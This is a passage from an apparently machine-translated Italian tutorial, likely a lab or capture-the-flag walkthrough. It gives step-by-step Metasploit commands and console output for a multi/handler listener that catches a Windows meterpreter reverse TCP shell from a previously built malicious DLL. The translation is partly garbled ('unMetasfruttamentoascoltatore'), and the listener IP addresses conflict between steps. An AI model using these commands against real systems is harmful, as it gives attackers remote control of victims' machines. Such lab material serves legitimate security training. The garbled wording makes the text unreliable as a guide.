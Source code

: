 Esegui le seguenti opzioni di comando:

```
use exploit/multi/handler
```
```
set payload windows/x64/meterpreter/reverse_tcp
```
```
set lhost 10.14.99.134
```
```
set lport 4444
```

**Nota** : i valori per **LHOST** e **LPORT** devono essere gli stessi utilizzati per creare la DLL dannosa . 

Configura unMetasfruttamentoascoltatore

```shell-session
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.0.100
lhost => 192.168.0.100 msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) >
```

Quindi, eseguilo in modo che sia attivamente in attesa di una connessione. 

Avvia l'ascoltatore per accettare le connessioni in arrivo

```shell-session
msf5 exploit(multi/handler) > run -j 
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP on 192.168.0.100:4444
```

Significa  `-j` semplicemente eseguirlo come un lavoro. 

```
run -j
```
Controllare metasploit del jobs

```
jobs
```

```shell-session
msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.0.100:4444

msf5 exploit(multi/handler) >
```
